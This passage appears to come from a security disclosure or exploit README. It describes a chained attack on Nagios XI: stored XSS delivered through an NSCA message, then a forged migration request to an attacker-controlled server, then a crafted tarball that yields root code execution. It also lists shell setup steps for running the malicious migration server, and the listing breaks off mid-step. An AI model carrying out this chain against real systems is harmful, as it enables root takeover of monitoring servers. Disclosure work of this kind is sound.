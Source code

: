 <img src="images/nsca_xss.png" style="width:90.0%" alt="Flow of execution from NSCA message to XSS" /><figcaption aria-hidden="true">Flow of execution from NSCA message to XSS</figcaption>
</figure>

Nagios XI’s default frontend settings make it hard for an admin to
ignore when a host goes down, so when they do access the page for
‘localhost’ to see what went wrong, the rest of the attack will run.
First, the PHP page for host details lacks proper sanitization, so it
inserts the crafted comment directly into the HTML, which will run a
JavaScript payload in the admin user’s browser. This payload will send a
POST request to the migrate server endpoint with parameters that cause
Nagios to initiate the migration to the server we set up. The migrate
server endpoint queues a command internally that ends up invoking a
`migrate.php` script with sudo (normally it would run as the Nagios
user, but this migrate script is a special case Nagios explicitly adds
to `/etc/sudoers`).

This PHP migration script populates and runs an Ansible playbook, which
uploads a script to our SSH server, runs it, and downloads the resulting
configuration bundle. Since we’ve deliberately modified the server to
break assumptions in their script, the playbook ends up downloading a
tarball that we fully control. The migrate script then copies an
“unbundling” Python script to a temporary directory along with our
tarball, and then the script extracts our tarball and runs the
unbundling script. Since we control the tarball’s contents, we craft it
to contain a file with the same name as the unbundling script so our
script is the one that ends up getting executed as root.

```
# 1. Stand up the malicious migration server, which includes generating the XSS
# payload. Note that docker cares about what directory you build from, so run
# the script from the migrate directory. The script will spawn a container that
# stays open on the terminal and listens until it receives the migrate connection.
> cd migrate/
> ./run_in_docker.sh <External IP of the migrate server>

# 2. In a new terminal, spin up a default Nagios XI server and a default Nagios XI
# client as shown below.
# On the Nagios Server, ensure there's a password or delete the password line
> vim /usr/local/nagios/etc/nsca.cfg

# Update `nsca_xss/send_nsca.cfg` on the client to match the password
# and encryption_method fields from the server.
> vim ./nsca_xss/send_nsca.cfg

# On the Nagios Server, ensure that the client machine is configured in the xinetd
```